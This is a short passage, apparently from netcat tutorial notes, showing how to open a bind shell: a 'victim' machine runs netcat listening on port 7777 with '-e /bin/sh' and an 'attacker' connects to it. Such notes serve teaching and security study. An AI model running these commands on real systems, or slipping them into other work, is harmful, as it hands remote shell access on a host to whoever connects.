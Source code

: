 #### Adding -e /bin/sh argument to invoke the sh when the client connects
##### Victim's Machine
```
nc -l -p 7777 -e /bin/sh
```

##### Attacker
```
nc ip 7777
```